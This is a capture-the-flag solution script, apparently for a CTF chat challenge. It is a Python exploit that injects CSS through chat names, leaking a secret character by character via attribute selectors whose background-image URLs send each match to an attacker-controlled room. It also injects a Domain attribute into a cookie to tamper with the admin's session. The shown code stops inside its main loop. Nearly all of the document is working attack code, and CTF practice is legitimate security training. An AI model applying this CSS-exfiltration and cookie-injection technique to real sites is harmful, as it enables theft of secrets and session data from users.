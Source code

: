 The full almost automatic exploit:
```python
#!/usr/bin/env python3
import requests
import uuid
import urllib
import string
import json
import sys

baseurl = "https://cat-chat.web.ctfcompetition.com"

roomId = str(uuid.uuid4())
leakRoomId = str(uuid.uuid4())

roomUrl = "{}/room/{}".format(baseurl, roomId)
print("Join {}/".format(roomUrl))
leakRoomUrl = "{}/room/{}".format(baseurl, leakRoomId)
print("Leak room {}/".format(leakRoomUrl))

headers = {
    'referer': roomUrl
}

def send(roomUrl, name, msg):
    name = urllib.parse.quote(name)
    url = "{}/send?name={}&msg={}".format(roomUrl, name, msg)
    r = requests.get(url, headers=headers)
    return r

def searchReceive(search, roomUrl, timeout=None):
    r = requests.get("{}/receive".format(roomUrl), stream=True, timeout=timeout)
    for chunk in r.iter_content(chunk_size = None):
        data = chunk.decode('ascii')
        if search in data:
            return data

def genCSSLine(s):
    return 'span[data-secret^=' + s + ']{background-image:url(' + leakRoomUrl + '/send?name=flag&msg=' + s + ');}'

def getCurrentSecret():
    data = searchReceive('"name":"flag","msg":"', leakRoomUrl, 5)
    datapoints = data.split("data: ")
    secretPoint = next(json.loads(point.strip()) for point in datapoints if "CTF" in point)
    return secretPoint["msg"]

arg = str(sys.argv[1]) if len(sys.argv) > 1 else ""
res = "CTF\{" + arg

while True:
    print("Please /report")
    searchReceive("I will ruthlessly ban anyone", roomUrl)
    while True:

        payload  = 'a],p{color:#fff;}'
        payload += ''.join([genCSSLine(res + c) for c in string.ascii_letters + string.digits + "_"])
        payload += genCSSLine(res + "\}")
        send(roomUrl, payload, "dog")

        payload = "/secret deadbeef; Domain=foo.web.ctfcompetition.com"
        send(roomUrl, payload, "dog")

```